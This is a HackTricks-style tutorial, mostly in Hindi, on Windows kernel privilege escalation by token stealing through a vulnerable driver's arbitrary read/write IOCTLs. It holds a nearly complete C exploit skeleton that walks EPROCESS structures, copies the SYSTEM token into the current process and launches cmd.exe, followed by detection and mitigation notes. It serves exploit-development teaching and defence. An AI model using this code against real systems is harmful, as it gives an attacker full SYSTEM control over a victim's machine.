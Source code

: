# Windows kernel EoP: Token stealing with arbitrary kernel R/W

{{#include ../../banners/hacktricks-training.md}}

## अवलोकन

यदि कोई vulnerable driver ऐसा IOCTL एक्सपोज़ करता है जो हमलावर को arbitrary kernel read और/या write primitives देता है, तो NT AUTHORITY\SYSTEM पर उन्नयन अक्सर SYSTEM access token चुरा कर हासिल किया जा सकता है। यह तकनीक SYSTEM process के EPROCESS से Token pointer को वर्तमान process के EPROCESS में कॉपी करती है।

क्यों यह काम करता है:
- प्रत्येक process का एक EPROCESS संरचना होती है जिसमें (अन्य फील्ड्स के साथ) एक Token होता है (वास्तव में token object के लिए एक EX_FAST_REF)।
- SYSTEM process (PID 4) के पास सभी privileges सक्षम किए हुए एक token होता है।
- वर्तमान process का EPROCESS.Token को SYSTEM token pointer से बदलने पर वर्तमान process तुरंत SYSTEM के रूप में चलने लगता है।

> EPROCESS में offsets Windows के संस्करणों के अनुसार बदलते रहते हैं। इन्हें डायनामिकली (symbols) से निर्धारित करें या version-specific constants का उपयोग करें। साथ ही याद रखें कि EPROCESS.Token एक EX_FAST_REF है (निचले 3 बिट्स reference count flags हैं)।

## उच्च-स्तरीय चरण

1) ntoskrnl.exe base ढूंढें और PsInitialSystemProcess का पता हल करें।
- user mode से, loaded driver bases पाने के लिए NtQuerySystemInformation(SystemModuleInformation) या EnumDeviceDrivers का उपयोग करें।
- kernel base में PsInitialSystemProcess का offset (symbols/reversing से) जोड़कर उसका address प्राप्त करें।
2) PsInitialSystemProcess पर pointer पढ़ें → यह SYSTEM के EPROCESS का kernel pointer है।
3) SYSTEM EPROCESS से UniqueProcessId और ActiveProcessLinks के offsets पढ़ें ताकि EPROCESS संरचनाओं की doubly linked list (ActiveProcessLinks.Flink/Blink) को traverse किया जा सके, जब तक कि आप उस EPROCESS को न पाएं जिसकी UniqueProcessId GetCurrentProcessId() के बराबर हो। दोनों को रखें:
- EPROCESS_SYSTEM (SYSTEM के लिए)
- EPROCESS_SELF (वर्तमान process के लिए)
4) SYSTEM token value पढ़ें: Token_SYS = *(EPROCESS_SYSTEM + TokenOffset)।
- निचले 3 बिट्स को mask करें: Token_SYS_masked = Token_SYS & ~0xF (आम तौर पर ~0xF या ~0x7 बिल्ड पर निर्भर करता है; x64 पर निचले 3 बिट्स का उपयोग होता है — 0xFFFFFFFFFFFFFFF8 mask)।
5) विकल्प A (सामान्य): अपनी current token के निचले 3 बिट्स को संरक्षित रखें और embedded ref count को consistent रखने के लिए उन्हें SYSTEM के pointer पर splice करें।
- Token_ME = *(EPROCESS_SELF + TokenOffset)
- Token_NEW = (Token_SYS_masked | (Token_ME & 0x7))
6) अपने kernel write primitive का उपयोग करके Token_NEW को (EPROCESS_SELF + TokenOffset) में वापस लिखें।
7) आपका वर्तमान process अब SYSTEM है। पुष्टि के लिए वैकल्पिक रूप से नया cmd.exe या powershell.exe spawn करें।

## छद्मकोड

नीचे एक skeleton है जो केवल एक vulnerable driver से दो IOCTLs का उपयोग करता है, एक 8-byte kernel read के लिए और एक 8-byte kernel write के लिए। इसे अपने driver के interface से बदलें।
```c
#include <Windows.h>
#include <Psapi.h>
#include <stdint.h>

// Device + IOCTLs are driver-specific
#define DEV_PATH   "\\\\.\\VulnDrv"
#define IOCTL_KREAD  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_BUFFERED, FILE_ANY_ACCESS)
#define IOCTL_KWRITE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x802, METHOD_BUFFERED, FILE_ANY_ACCESS)

// Version-specific (examples only – resolve per build!)
static const uint32_t Off_EPROCESS_UniquePid    = 0x448; // varies
static const uint32_t Off_EPROCESS_Token        = 0x4b8; // varies
static const uint32_t Off_EPROCESS_ActiveLinks  = 0x448 + 0x8; // often UniquePid+8, varies

BOOL kread_qword(HANDLE h, uint64_t kaddr, uint64_t *out) {
struct { uint64_t addr; } in; struct { uint64_t val; } outb; DWORD ret;
in.addr = kaddr; return DeviceIoControl(h, IOCTL_KREAD, &in, sizeof(in), &outb, sizeof(outb), &ret, NULL) && (*out = outb.val, TRUE);
}
BOOL kwrite_qword(HANDLE h, uint64_t kaddr, uint64_t val) {
struct { uint64_t addr, val; } in; DWORD ret;
in.addr = kaddr; in.val = val; return DeviceIoControl(h, IOCTL_KWRITE, &in, sizeof(in), NULL, 0, &ret, NULL);
}

// Get ntoskrnl base (one option)
uint64_t get_nt_base(void) {
LPVOID drivers[1024]; DWORD cbNeeded;
if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded >= sizeof(LPVOID)) {
return (uint64_t)drivers[0]; // first is typically ntoskrnl
}
return 0;
}

int main(void) {
HANDLE h = CreateFileA(DEV_PATH, GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
if (h == INVALID_HANDLE_VALUE) return 1;

// 1) Resolve PsInitialSystemProcess
uint64_t nt = get_nt_base();
uint64_t PsInitialSystemProcess = nt + /*offset of symbol*/ 0xDEADBEEF; // resolve per build

// 2) Read SYSTEM EPROCESS
uint64_t EPROC_SYS; kread_qword(h, PsInitialSystemProcess, &EPROC_SYS);

// 3) Walk ActiveProcessLinks to find current EPROCESS
DWORD myPid = GetCurrentProcessId();
uint64_t cur = EPROC_SYS; // list is circular
uint64_t EPROC_ME = 0;
do {
uint64_t pid; kread_qword(h, cur + Off_EPROCESS_UniquePid, &pid);
if ((DWORD)pid == myPid) { EPROC_ME = cur; break; }
uint64_t flink; kread_qword(h, cur + Off_EPROCESS_ActiveLinks, &flink);
cur = flink - Off_EPROCESS_ActiveLinks; // CONTAINING_RECORD
} while (cur != EPROC_SYS);

// 4) Read tokens
uint64_t tok_sys, tok_me;
kread_qword(h, EPROC_SYS + Off_EPROCESS_Token, &tok_sys);
kread_qword(h, EPROC_ME  + Off_EPROCESS_Token, &tok_me);

// 5) Mask EX_FAST_REF low bits and splice refcount bits
uint64_t tok_sys_mask = tok_sys & ~0xF; // or ~0x7 on some builds
uint64_t tok_new = tok_sys_mask | (tok_me & 0x7);

// 6) Write back
kwrite_qword(h, EPROC_ME + Off_EPROCESS_Token, tok_new);

// 7) We are SYSTEM now
system("cmd.exe");
return 0;
}
```
नोट्स:
- ऑफ़सेट: WinDbg’s `dt nt!_EPROCESS` को लक्ष्य के PDBs के साथ, या एक runtime symbol loader का उपयोग करके, सही offsets प्राप्त करें। अंधाधुंध हार्डकोड न करें।
- मास्क: x64 पर token एक EX_FAST_REF है; निचले 3 बिट रेफरेंस काउंट बिट्स होते हैं। अपने token के मूल निचले बिट्स बनाए रखने से तुरंत refcount असंगतियों से बचता है।
- स्थिरता: वर्तमान प्रोसेस को बढ़ाना प्राथमिकता दें; यदि आप किसी short-lived helper को elevate करते हैं तो वह समाप्त होते ही SYSTEM खो सकते हैं।

## डिटेक्शन और निवारण
- शक्तिशाली IOCTLs उजागर करने वाले unsigned या अविश्वसनीय third‑party drivers को लोड करना मूल कारण है।
- Kernel Driver Blocklist (HVCI/CI), DeviceGuard, और Attack Surface Reduction नियम कमजोर ड्राइवर्स को लोड होने से रोक सकते हैं।
- EDR संदिग्ध IOCTL sequences जो arbitrary read/write को लागू करते हैं और token swaps के लिए निगरानी कर सकता है।

## संदर्भ
- [HTB Reaper: Format-string leak + stack BOF → VirtualAlloc ROP (RCE) and kernel token theft](https://0xdf.gitlab.io/2025/08/26/htb-reaper.html)
- [FuzzySecurity – Windows Kernel ExploitDev (token stealing examples)](https://www.fuzzysecurity.com/tutorials/expDev/17.html)

{{#include ../../banners/hacktricks-training.md}}
